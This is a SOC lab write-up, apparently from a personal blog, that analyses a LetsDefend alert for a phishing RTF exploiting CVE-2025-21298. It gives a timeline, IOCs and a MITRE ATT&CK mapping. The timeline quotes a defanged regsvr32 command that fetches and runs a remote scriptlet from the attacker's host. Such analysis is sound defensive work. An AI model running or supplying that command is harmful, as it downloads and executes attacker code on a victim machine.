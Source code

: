 ```yaml
---
title: 'Write-up - Letsdefense Windows OLE Zero-Click RCE Exploitation Detected (CVE-2025-21298)'
description: 'Lorem ipsum dolor sit amet'
pubDate: 'Feb 4 2025'
heroImage: '/blog-placeholder-2.jpg'
tags: [SOC]
---
```


## Alert
```
EventID : 314
Event Time : Feb, 04, 2025, 04:18 PM
Rule : SOC336 - Windows OLE Zero-Click RCE Exploitation Detected 
(CVE-2025-21298)
Level : Security Analyst
SMTP Address : 84.38.130.118
Source Address : projectmanagement@pm.me
Destination Address : Austin@letsdefend.io
E-mail Subject :Important: Action Required for Upcoming Project Deadline
Attachment : mail.rtf
Attachment Hash :
df993d037cdb77a435d6993a37e7750dbbb16b2df64916499845b56aa9194184
Device Action : Allowed
Trigger Reason : Malicious RTF attachment identified with known 
CVE-2025-21298 exploit pattern.
```

## Timeline


| Time | Event | Attack Phease |
| :---- | :---- | :---- |
| Feb, 04, 2025, 05:12 AM | A sprint phishing email | Initital Compromise |
| Feb 04 2025 08:05:15 | Outlook.exe | Initital Compromise |
| Feb 04 2025 08:06:08 | cmd “regsvr32.exe /s /u /i:hxxp://84.38.130.118\[.\]com/shell.sct scrobj.dll” | Initital Compromise |
| Feb, 04, 2025, 08:06 AM | Get hxxp://84.38.130.118\[.\]com/shell.sct | Initital Compromise |


<br /> 

## Indicators of Compromise (IOCs)

<br /> 

#### Host-Based IOCs

| MD5 | FileName | Descrition |
| :---- | :---- | :---- |
| 961027d29dda725b8117571a6a6ca1d5 | mail.rtf | Malicious Attachment |

<br /> 

#### Network-based IOCs

| Value | Type | Descrition |
| :---- | :---- | :---- |
| hxxp://84.38.130.118\[.\]com/shell.sct | URL | Exploit Payload |
| 84.38.130\[.\]118 | IPV4 | C2 Server |
| projectmanagement@pm\[.\]me | Email | Phishing sender |



 <br /> 

## MITRE ATT&CK Mapping


**Initial Access**
- T1566.001  Phishing: Spearphishing Attachment

**Execution**
- T1129  Shared Modules

**Command and Control**
- T1071.001  Application Layer Protocol: Web Protocols

---

## Reference

\[1\] [https://github.com/ynwarcs/CVE-2025-21298](https://github.com/ynwarcs/CVE-2025-21298)  
\[2\] https://msrc.microsoft.com/update-guide/vulnerability/CVE-2025-21298